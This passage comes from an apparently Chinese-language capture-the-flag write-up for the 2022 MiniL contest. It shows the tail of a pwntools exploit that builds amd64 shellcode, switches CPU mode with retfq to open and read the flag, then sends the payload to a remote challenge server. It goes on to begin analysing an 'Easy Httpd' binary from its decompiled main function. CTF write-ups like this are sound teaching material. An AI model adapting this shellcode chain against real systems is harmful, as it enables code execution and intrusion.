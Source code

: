 ```python

'''
mov dil, 1
xor rax, rax
xor rax, 1
syscall
'''
shellcode_write_to_mem_write = asm('''
mov dword ptr [rdx+0x31], 0x4801b740
mov dword ptr [rdx+0x35], 0x8348c031
mov dword ptr [rdx+0x39], 0x050f01f0
''', arch='amd64', os='linux')

shellcode_jmp_to_mem = asm('''
push rax
ret
''', arch='amd64', os='linux')

# io = process('./shellcode')

io = remote('pwn.archive.xdsec.chall.frankli.site', 10051)

shellcode = shellcode_mmap
shellcode += shellcode_write_to_mem_retfq
shellcode += shellcode_write_to_mem_open_flag_86
shellcode += shellcode_write_to_mem_retf
shellcode += shellcode_write_to_mem_read
shellcode += shellcode_write_to_mem_write
shellcode += shellcode_mov_sp
shellcode += shellcode_jmp_to_mem

io.sendline(shellcode)
io.interactive()
```

手工汇编写到一半发现, 好像可以直接调用 read 向 mmap 的那块内存中写数据... 我好蠢.

retf 和 retfq 的地方随便填充一下, 读完以后用类似 `mov ax, 0xc0; xor ax, 0x0b; mov [addr], ax` 写过去补一下就行.

### Easy Httpd \| Wings

检查一下信息, 64 位可执行文件, 保护全开. 丢进 ida 里反一反(rizin 反出来的东西看不懂捏, 汇编也看不懂捏), main 函数如下:

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int *v3; // rax
  char *v4; // rax
  int *v5; // rax
  char *v6; // rax
  int *v7; // rax
  char *v8; // rax
  int *v9; // rax
  char *v10; // rax
  int fd; // [rsp+8h] [rbp-28h]
  int v12; // [rsp+Ch] [rbp-24h]
  struct sockaddr addr; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v14; // [rsp+28h] [rbp-8h]

  v14 = __readfsqword(0x28u);
  ((void (__fastcall *)(__int64, char **, char **))((char *)&sub_1468 + 1))(a1, a2, a3);
  puts("Welcome to 2022 MiniL");
  fd = socket(2, 1, 0);
  if ( fd == -1 )
  {
```